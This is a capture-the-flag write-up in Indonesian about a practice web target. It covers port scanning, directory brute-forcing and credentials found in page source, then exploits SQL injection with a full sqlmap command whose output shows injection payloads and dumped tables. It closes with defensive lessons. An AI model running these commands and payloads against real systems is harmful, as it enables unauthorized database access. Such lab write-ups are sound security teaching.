Writeup: Capture The Flag Yadika
DISCLAIMER: Materi ini dibuat semata-mata untuk tujuan EDUKASI dan keamanan siber. Penulis tidak bertanggung jawab atas segala bentuk penyalahgunaan informasi yang ada di sini. Menguji teknik ini pada sistem tanpa izin eksplisit adalah tindakan ILEGAL.
Reconnaissance
Mulailah dengan scanning port menggunakan Nmap.
nmap -T4 <target_ip>
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-06 16:45 +0700
Nmap scan report for <target_ip>.vultrusercontent.com (<target_ip>)
Host is up (0.026s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
8090/tcp open opsmessaging
Nmap done: 1 IP address (1 host up) scanned in 4.46 seconds
Terdapat port 8090 yang open dan port 80 adalah exclude target jadi saya skip.
Enumeration
Port 8090 - HTTP

Terdapat kode error 404 yang menunjukkan halaman tidak ada isinya. coba saya lakukan directory bruteforce.Directory bruteforce
dirsearch -u http://<target_ip>:8090/
_|. _ _ _ _ _ _|_ v0.4.3.post1
(_||| _) (/_(_|| (_| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460
Output File: /home/alterpix/reports/http_<target_ip>_8090/__26-03-06_16-58-26.txt
Target: http://<target_ip>:8090/
[16:58:26] Starting:
[16:58:29] 403 - 320B - /.ht_wsr.txt
[16:58:29] 403 - 320B - /.htaccess.orig
[16:58:29] 403 - 320B - /.htaccess.bak1
[16:58:29] 403 - 320B - /.htaccess.sample
[16:58:29] 403 - 320B - /.htaccess.save
[16:58:29] 403 - 320B - /.htaccess_extra
[16:58:29] 403 - 320B - /.htaccess_sc
[16:58:29] 403 - 320B - /.htaccess_orig
[16:58:29] 403 - 320B - /.htaccessOLD
[16:58:29] 403 - 320B - /.htaccessBAK
[16:58:29] 403 - 320B - /.htaccessOLD2
[16:58:29] 403 - 320B - /.htm
[16:58:29] 403 - 320B - /.html
[16:58:29] 403 - 320B - /.htpasswd_test
[16:58:29] 403 - 320B - /.htpasswds
[16:58:29] 403 - 320B - /.httr-oauth
[16:58:41] 301 - 359B - [REDACTED]
[16:58:41] 200 - 2KB - [REDACTED]
[16:58:53] 403 - 320B - /server-status
[16:58:53] 403 - 320B - /server-status/
Task Completed
Setelah saya lakukan directory brute force, saya menemukan 1 request yang menunjukkan respon 200 yang berarti halaman tersebut ada dan bisa di akses.
Sekarang saya akan membuka halaman itu

Flag 1
Karena dari salah satu challenge menunjukkan kata header jadi saya mencoba melihat isi header dari directory url tersebut dan ternyata flag pertama ada disana.
curl -I http://<target_ip>:8090/[REDACTED]/index.php
HTTP/1.1 200 OK
Date: Fri, 06 Mar 2026 10:05:03 GMT
Server: Apache/2.4.66 (Debian)
X-Powered-By: MBG-Portal/2.3.1
X-Debug-Mode: enabled
X-Flag: flag[REDACTED]
Content-Type: text/html; charset=UTF-8
Flag 2
Pada flag kedua memberikan sebuah hint untuk memeriksa javascript. Disini saya melakukan inspect untuk melihat network request yang berkaitan dengan javascript.

Terdapat Hint mencurigakan yang mengarah ke javascript lain

Sekarang saya akan mengikuti konten javascript yang di mention itu.
Flag ke 2 ternyata ada di javascript yang tadi saya ikuti. Di dalam javascript tadi terdapat informasi lain yang mengarah ke Directory RahasiaFlag 3

Pada directory rahasia tadi ternyata ada fitur directory listing yang membuat saya bisa melihat isi file lain juga secara terbuka. Saya mencoba melihat isi source page nya dengan view page source.
Flag Ketiga ada disana dan termasuk juga directory admin, username dan password nya.Flag 4
Sekarang saya mencoba melihat isi dari web login admin itu dan login dengan kredensial yang sebelumnya ditemukan.

Ternyata kredensial itu valid dan berhasil login sebagai admin MBG.

Selanjutnya saya akan mencari apakah ada kerentanan di dalam Dashboard ini atau ada konten menarik lain.Ternyata terdapat kerentanan SQL injection pada sistem pencarian di menu pegawai, dengan saya mencoba mengisi inputan menggunankan ' lalu terjadi error.

Vulnerability Analysis
Kerentanan itu adalah SQL Injection karena gagal sanitasi pada sistem pencarian, karena saya memerlukan login untuk bisa mengakses halaman itu. Langkah selanjutnya adalah mengambil session Cookie yang akan saya gunakan dengan sqlmap

Exploitation
Karena database nya SQLite jadi saya menggunakan --tables karena dia hanya database tunggal
sqlmap --cookie="PHPSESSID=[REDACTED]" -u http://<target_ip>:8090/dev/[REDACTED]/pegawai.php?cari=admin --tables --dump
___
__H__
___ ___[(]_____ ___ ___ {1.10#stable}
|_ -| . [,] | .'| . |
|___|_ ["]_|_|_|__,| _|
|_|V... |_| https://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 17:56:52 /2026-03-06/
[17:56:52] [INFO] resuming back-end DBMS 'sqlite'
[17:56:52] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cari (GET)
Type: boolean-based blind
Title: SQLite AND boolean-based blind - WHERE, HAVING, GROUP BY or HAVING clause (JSON)
Payload: cari=1' AND CASE WHEN 6350=6350 THEN 6350 ELSE JSON(CHAR(105,107,80,71)) END-- kAnq
Type: UNION query
Title: Generic UNION query (NULL) - 4 columns
Payload: cari=1' UNION ALL SELECT NULL,NULL,CHAR(113,113,112,113,113)||CHAR(82,113,83,117,109,120,116,98,101,75,65,113,120,87,112,87,84,117,122,86,118,85,108,65,72,83,112,113,82,117,112,121,105,117,87,76,80,121,79,120)||CHAR(113,106,106,98,113),NULL-- dpWK
---
[17:56:53] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Debian
web application technology: Apache 2.4.66, PHP 8.2.30
back-end DBMS: SQLite
[17:56:53] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[2 tables]
+---------+
| flags |
| pegawai |
+---------+
[17:56:53] [INFO] fetching columns for table 'pegawai'
[17:56:53] [WARNING] reflective value(s) found and filtering out
[17:56:53] [INFO] fetching entries for table 'pegawai'
Database: <current>
Table: pegawai
[5 entries]
+----+-----------------+----------------+-------------+
| id | nama | email | divisi |
+----+-----------------+----------------+-------------+
| 1 | Prabowo Santoso | prabowo@mbg.id | Engineering |
| 2 | Jokowi Raharjo | jokowi@mbg.id | HR |
| 3 | Gibran Dewi | gibran@mbg.id | Keuangan |
| 4 | Bahlil Kusuma | bahlil@mbg.id | Logistik |
| 5 | Eka Wijaya | eka@mbg.id | IT Security |
+----+-----------------+----------------+-------------+
[17:56:53] [INFO] table 'SQLite_masterdb.pegawai' dumped to CSV file '/home/alterpix/.local/share/sqlmap/output/<target_ip>/dump/SQLite_masterdb/pegawai.csv'
[17:56:53] [INFO] fetching columns for table 'flags'
[17:56:53] [INFO] fetching entries for table 'flags'
Database: <current>
Table: flags
[1 entry]
+----+----------+-------------------------------+
| id | nama | nilai |
+----+----------+-------------------------------+
| 1 | ch5_flag | flag[REDACTED] |
+----+----------+-------------------------------+
[17:56:53] [INFO] table 'SQLite_masterdb.flags' dumped to CSV file '/home/alterpix/.local/share/sqlmap/output/<ip_target>/dump/SQLite_masterdb/flags.csv'
[17:56:53] [INFO] fetched data logged to text files under '/home/alterpix/.local/share/sqlmap/output/<ip_target>'
[*] ending @ 17:56:53 /2026-03-06/
Flag ke empat ditemukan di tabel flag.
Lessons Learned
- Nonaktifkan Directory Listing: Pastikan fitur directory listing (misalnya
Options -Indexespada Apache) dinonaktifkan pada web server. Konfigurasi yang keliru dapat memungkinkan penyerang melihat isi direktori dan menemukan file, source code, atau kredensial sensitif yang seharusnya tersembunyi. - Jangan Simpan Kredensial di Source Code: Hindari praktik menaruh kredensial (username dan password) atau informasi rahasia lainnya di dalam source code atau file client-side (seperti HTML atau JavaScript) yang dapat diinspeksi dengan mudah oleh publik.
- Mencegah SQL Injection: Kerentanan pada sistem pencarian membuktikan pentingnya validasi dan sanitasi data input. Selalu gunakan Parameterized Queries (Prepared Statements) alih-alih merangkai query SQL secara langsung dengan input dari pengguna untuk mencegah eksekusi query manipulatif.
- Hindari Kebocoran Informasi di Header HTTP: Hindari mengekspos informasi rahasia seperti versi stack teknologi atau flag secara eksplisit melalui HTTP Response Headers kustom.
END_SESSION EXIT